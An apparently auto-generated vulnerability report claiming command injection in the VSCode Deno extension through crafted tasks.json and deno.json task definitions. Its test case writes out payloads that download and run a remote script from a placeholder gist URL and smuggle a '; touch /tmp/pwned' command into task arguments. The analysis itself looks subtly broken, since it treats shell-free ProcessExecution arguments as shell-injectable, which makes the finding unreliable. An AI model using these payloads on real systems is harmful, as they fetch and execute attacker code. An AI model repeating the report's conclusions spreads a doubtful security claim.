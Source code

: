 - Vulnerability Name: Command Injection via Task Definitions in `tasks.json` and `deno.json`
- Description:
  The VSCode Deno extension allows users to define tasks in `tasks.json` and `deno.json` files to automate Deno CLI commands. These task definitions can include arbitrary commands and arguments. If a malicious repository provides a crafted `tasks.json` or `deno.json` file with malicious commands, opening the repository in VSCode with the Deno extension enabled could lead to command injection. The vulnerability is triggered when the user interacts with the task, for example, by running it from the tasks sidebar or through the command palette.

  Steps to trigger vulnerability:
    1. Attacker creates a malicious repository containing a `tasks.json` or `deno.json` file.
    2. In the `tasks.json` or `deno.json`, the attacker defines a task with a malicious command, for example, by injecting shell commands into the `command` or `args` fields.
    3. Victim clones or opens the malicious repository in VSCode with the Deno extension enabled.
    4. Victim interacts with the task, e.g., by opening the tasks sidebar and clicking "Run Task" or by using the "Tasks: Run Task" command and selecting the malicious task.
    5. The malicious command injected by the attacker is executed on the victim's machine with the privileges of the VSCode process.

- Impact:
  Remote Code Execution (RCE). An attacker can execute arbitrary commands on the victim's machine. This could lead to data theft, system compromise, or further malicious activities.

- Vulnerability Rank: Critical

- Currently Implemented Mitigations:
  None. The extension directly uses the command and arguments from the task definitions to execute commands via `vscode.ProcessExecution`. There is no input sanitization or validation on the task definitions provided by the workspace.

- Missing Mitigations:
    - Input sanitization and validation: Sanitize and validate the `command` and `args` fields in `tasks.json` and `deno.json` task definitions to prevent command injection. Disallow shell metacharacters or escape them properly before passing to `ProcessExecution`.
    - Sandboxing or isolation: Execute tasks in a sandboxed environment with limited privileges to minimize the impact of command injection.
    - User confirmation: Prompt user confirmation before executing tasks defined in workspace configuration files, especially for newly opened workspaces or workspaces from untrusted sources.

- Preconditions:
    - Victim must have the VSCode Deno extension installed and enabled.
    - Victim must open a malicious repository containing a crafted `tasks.json` or `deno.json` file in VSCode.
    - Victim must interact with the malicious task by attempting to run it.

- Source Code Analysis:
    1. **`client/src/tasks.ts` and `client/src/tasks_sidebar.ts`**: These files are responsible for reading and executing tasks. `DenoTasksTreeDataProvider` in `tasks_sidebar.ts` fetches tasks and `DenoTaskProvider` in `tasks.ts` provides tasks. `buildDenoTask` and `buildDenoConfigTask` functions are used to construct `vscode.Task` objects.
    2. **`client/src/tasks.ts#buildDenoTask`**:
       ```typescript
       export function buildDenoTask(
         target: vscode.WorkspaceFolder,
         process: string,
         definition: DenoTaskDefinition,
         name: string,
         args: string[],
         problemMatchers: string[],
       ): vscode.Task {
         const exec = new vscode.ProcessExecution(
           process,
           args, // [VULNERABILITY]: `args` is directly passed to ProcessExecution without sanitization
           definition,
         );

         return new vscode.Task(
           definition,
           target,
           name,
           TASK_SOURCE,
           exec,
           problemMatchers,
         );
       }
       ```
       - The `buildDenoTask` function takes an array of `args` directly from the `DenoTaskDefinition` and passes it to `vscode.ProcessExecution`. This function is used for tasks defined in `tasks.json`.
    3. **`client/src/tasks.ts#buildDenoConfigTask`**:
       ```typescript
       export function buildDenoConfigTask(
         scope: vscode.WorkspaceFolder,
         process: string,
         name: string,
         command: string | undefined,
         sourceUri?: vscode.Uri,
       ): vscode.Task {
         const args = [];
         if (
           sourceUri &&
           vscode.Uri.joinPath(sourceUri, "..").toString() != scope.uri.toString()
         ) {
           const configPath = path.relative(scope.uri.fsPath, sourceUri.fsPath);
           args.push("-c", configPath);
         }
         args.push(name); // [VULNERABILITY]: `name` (task name from deno.json) is added to args without sanitization
         const task = new vscode.Task(
           {
             type: TASK_TYPE,
             name: name,
             command: "task",
             args, // [VULNERABILITY]: `args` is directly passed to ProcessExecution without sanitization
             sourceUri,
           },
           scope,
           name,
           TASK_SOURCE,
           new vscode.ProcessExecution(process, ["task", ...args]), // [VULNERABILITY]: `args` is directly passed to ProcessExecution without sanitization
           ["$deno"],
         );
         task.detail = `$ ${command}`;
         return task;
       }
       ```
       - The `buildDenoConfigTask` function, used for tasks in `deno.json`, also constructs `vscode.ProcessExecution` with arguments derived from `name` and `args` in `deno.json` without sanitization.
    4. **`client/src/tasks_sidebar.ts#DenoTasksTreeDataProvider.getChildren`**:
       - This function and related classes read task definitions from `deno.json` files using `lsp_extensions.task` request to the Deno language server, and from `tasks.json` using `util.readTaskDefinitions`. These definitions are then used to create `DenoTask` tree items, which, when executed, will use the vulnerable `buildDenoTask` or `buildDenoConfigTask` functions.

       ```typescript
       async getChildren(element?: TreeItem): Promise<TreeItem[]> {
         if (!this.#taskTree) {
           const taskItems = await this.taskProvider.provideTasks(); // For deno.json tasks
           if (taskItems) {
             this.#taskTree = this.#buildTaskTree(taskItems);
             if (this.#taskTree.length === 0) {
               this.#taskTree = [new NoScripts("No scripts found.")];
             }
           }
         }
         // ... (rest of the logic for tasks.json is also here but not directly shown for brevity)
         ...
       }
       ```

    **Visualization**:

    ```
    Malicious tasks.json/deno.json --> DenoTasksTreeDataProvider/DenoTaskProvider --> buildDenoTask/buildDenoConfigTask --> vscode.ProcessExecution --> Command Injection
    ```

- Security Test Case:
  1. Create a new directory named `malicious-repo`.
  2. Inside `malicious-repo`, create a file named `tasks.json` with the following content:
     ```json
     {
       "version": "2.0.0",
       "tasks": [
         {
           "type": "deno",
           "command": "run",
           "args": [
             "-A",
             "-r",
             "https://gist.githubusercontent.com/exampleuser/1234567890abcdef/raw/malicious.ts; touch /tmp/pwned"
           ],
           "problemMatcher": [
             "$deno"
           ],
           "label": "malicious: task1"
         }
       ]
     }
     ```
     Alternatively, create `deno.json` with:
     ```json
     {
       "tasks": {
         "maliciousTask": "run -A -r https://gist.githubusercontent.com/exampleuser/1234567890abcdef/raw/malicious.ts; touch /tmp/pwned"
       }
     }
     ```
     (Note: Replace `https://gist.githubusercontent.com/exampleuser/1234567890abcdef/raw/malicious.ts` with a real URL that serves a harmless Deno script to avoid actual harmful execution in a real test scenario. For demonstration of command injection, the `; touch /tmp/pwned` is key.)

  3. Open VSCode and open the `malicious-repo` directory as a workspace folder. Ensure the Deno extension is enabled for this workspace.
  4. For `tasks.json` test case:
     - Open the Command Palette (Ctrl+Shift+P or Cmd+Shift+P) and type "Tasks: Run Task".
     - Select "malicious: task1".
  5. For `deno.json` test case:
     - Open the "Deno Tasks" sidebar (if visible, otherwise enable it).
     - Locate "maliciousTask" under your workspace.
     - Click the "Run Task" icon next to "maliciousTask".
  6. Observe the execution. If the command injection is successful, a file named `pwned` will be created in the `/tmp/` directory (or user's temp directory depending on OS and injected command).
  7. Verify the file creation by checking `/tmp/pwned`. If the file exists, the command injection vulnerability is confirmed.

This vulnerability allows for arbitrary command execution when a user opens a malicious repository and runs a task defined within it, posing a significant security risk.
